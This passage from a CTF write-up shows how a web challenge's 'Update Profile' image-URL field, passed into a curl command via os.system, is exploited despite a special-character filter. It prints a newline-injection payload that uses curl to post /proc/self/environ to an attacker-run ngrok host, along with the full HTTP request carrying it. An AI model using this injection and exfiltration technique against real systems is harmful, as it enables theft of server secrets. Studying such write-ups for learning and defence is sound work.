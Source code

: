 ### Command Injection
The command injection unintended solution is kind of similar to another challenge in this CTF, Availability. Although our input in the "Update Profile" page gets placed directly into the curl command, the page response is just whether or not the command was successful. The easy way to show this is reading what's stored in the profile image file (again, look back at the code for this), but I will explore this with [ngrok](https://ngrok.com/).

The code contains a filter for specific special characters.
```python
if (
        ";" in url
        or "`" in url
        or "$" in url
        or "(" in url
        or "|" in url
        or "&" in url
        or "<" in url
        or ">" in url
    ):
        return redirect("settings?error=Invalid character")

    cmd = f"curl --request GET {url} --output ./static/images/{user['id']} --proto =http,https"
    status = os.system(cmd)
    if status != 0:
        return redirect("settings?error=Error fetching the image")
```

Bypassing the filter is not that hard. A Discord user (acut3#1039) showed me this input:
```bash
%0Acurl http://... --data-binary '@/proc/self/environ' #
```

In the source code, the flag was originally pulled from an environment variable. This injection essentially sends out a POST request with the environment variable values in it. The only problem is I need some way to recieve that information, and I'm not about to set up an apache server on my Kali machine.

Luckily, I found [this gist](https://gist.github.com/mdonkers/63e115cc0c79b4f6b8b3a6b797e485c7) on Github for a Python webserver I can start up to log those requests. Since I'm working out of a VM that I keep on a NAT network for security reasons, I can start a webserver with Python, and then tunnel outsider traffic to my VM using ngrok and grab the flag. 

We send the following request.
```
POST /updateSettings HTTP/1.1
Host: challenge.ctf.games:32168
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 92
Origin: http://challenge.ctf.games:32168
Connection: close
Referer: http://challenge.ctf.games:32168/settings
Cookie: csrftoken=iFi0i9PTYhqIiYAb8k2mBzDgkR5dh9MU17ELV25PKZDDtLIE1EmFZBh7EEvcqJ67; session=eyJpZCI6IjE5MmY4Y2FiLWE3MmQtNGM5Yi05YWY4LTJjYzliOGQzN2M2YSJ9.YUfjKw.N60bWaU_T3JEoTPWq4ALUa52gKY
Upgrade-Insecure-Requests: 1

url=%0Acurl http://[REDACTED].ngrok.io --data-binary '@/proc/self/environ' #
```

